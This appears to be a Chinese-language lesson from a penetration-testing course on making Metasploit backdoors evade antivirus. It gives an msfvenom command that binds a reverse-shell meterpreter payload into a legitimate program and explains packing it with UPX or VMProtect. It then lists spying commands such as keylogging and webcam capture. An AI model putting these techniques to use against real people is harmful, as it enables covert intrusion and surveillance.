




# 网络安全系统教程：P13：漏洞攻击 - MSF绕过杀毒软件技巧 🛡️➡️🚫

在本节课中，我们将要学习如何使Metasploit Framework（MSF）生成的后门程序绕过杀毒软件的检测，这一过程通常被称为“免杀”。我们将介绍两种基础且有效的方法，帮助初学者理解其原理和操作步骤。

---

## 概述

杀毒软件会检测并清除常见的恶意程序。为了成功实施渗透测试，我们需要让后门程序“免杀”，即躲避杀毒软件的查杀。针对不同的操作系统和杀毒软件，免杀方法多种多样。本节课将聚焦于两种最基础、且能绕过部分杀毒软件（如火绒）的方法。

---

## 方法一：捆绑木马

捆绑木马是最常见的免杀方法之一。其原理是将后门程序与一个正常的、可信的应用程序捆绑在一起。当用户运行这个看似正常的程序时，后门程序也会在后台被触发执行。

在MSF中，我们可以使用 `msfvenom` 工具来生成捆绑了后门的程序。具体操作如下：

以下是使用 `msfvenom` 进行捆绑的关键参数：

*   **`-x`**：此参数用于指定一个正常的、将被捆绑的应用程序（即“载体”程序）。
*   **`-p`**：此参数用于指定要使用的Payload（即后门程序类型）。
*   **`-f`**：此参数用于指定输出文件的格式。

一个完整的捆绑命令示例如下：
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=你的IP LPORT=你的端口 -x 正常程序.exe -f exe -o 捆绑后程序.exe
```
执行此命令后，`msfvenom` 会将指定的Payload植入到“正常程序.exe”中，并生成一个新的可执行文件“捆绑后程序.exe”。

**重要注意事项：**

1.  **杀毒软件对抗**：此方法对于像360这类会深度检测软件行为的杀毒软件可能无效。
2.  **程序位数匹配**：必须确保载体程序（`-x` 指定的程序）的位数（32位或64位）与Payload的位数匹配。例如，一个64位的Payload无法成功植入到32位的载体程序中。国内许多常见软件（如QQ、微信、部分游戏）默认为32位，因此应尽量选择64位的国外开发工具（如Eclipse、Adobe系列软件）作为载体。

---

上一节我们介绍了通过捆绑正常程序来隐藏后门的方法，本节中我们来看看另一种更简单的技术——加壳。

## 方法二：软件加壳

软件加壳原本是软件开发者用来保护程序不被反编译、破解或抄袭的技术。同样，我们也可以利用加壳来改变后门程序的代码特征，从而绕过杀毒软件的静态特征码查杀。

壳主要分为两类：

*   **压缩壳**：如UPX，主要目的是减小程序的存储体积。
*   **加密壳/保护壳**：如VMProtect（VMP）、Armadillo（穿山甲），主要目的是混淆和加密代码，防止逆向工程。



这些壳同样能用于保护我们的后门程序，使其特征发生变化，避免被查杀。

**加壳操作步骤：**

以下是使用加壳软件（以某保护壳为例）的一般流程：

1.  **关闭运行中的后门**：在加壳前，务必通过任务管理器结束掉后门程序的任何运行进程，防止文件被占用。
2.  **拖入加壳软件**：打开加壳软件，将待保护的后门程序文件拖入软件界面。
3.  **执行保护**：点击软件上的“Protect”（保护）或类似按钮。
4.  **获取结果**：加壳完成后，通常会生成一个新的文件（如 `原程序_protected.exe`）。这个新文件就是已加壳、特征已改变的后门程序。

加壳后的程序在使用功能上与原始后门完全一致。你可以像之前一样，在MSF中启动监听器（`handler`），然后让目标运行加壳后的程序，从而成功获取 `meterpreter` 会话。

---

## 后续操作与探索

成功获取 `meterpreter` 会话后，便进入了后渗透阶段。`meterpreter` 提供了丰富的命令来操控目标系统。

你可以通过输入 `help` 命令查看所有可用指令。每个指令都有描述，通过翻译和理解这些描述，你可以自主探索各种功能，例如：

*   文件系统操作（上传、下载、搜索）。
*   键盘记录（`keyscan_start`）。
*   摄像头控制（`webcam_snap`）。
*   权限提升（`getsystem`）。



鼓励大家大胆尝试，在合法的测试环境中熟悉这些命令。



---

## 总结



本节课中我们一起学习了MSF框架中两种基础的免杀技巧：**捆绑木马**和**软件加壳**。我们从生成基础后门开始，逐步讲解了如何通过捆绑正常程序或使用加壳工具来绕过杀毒软件的检测。掌握这些基础方法是进行有效渗透测试的重要一环。请注意，所有技术都应在合法授权的范围内学习和使用。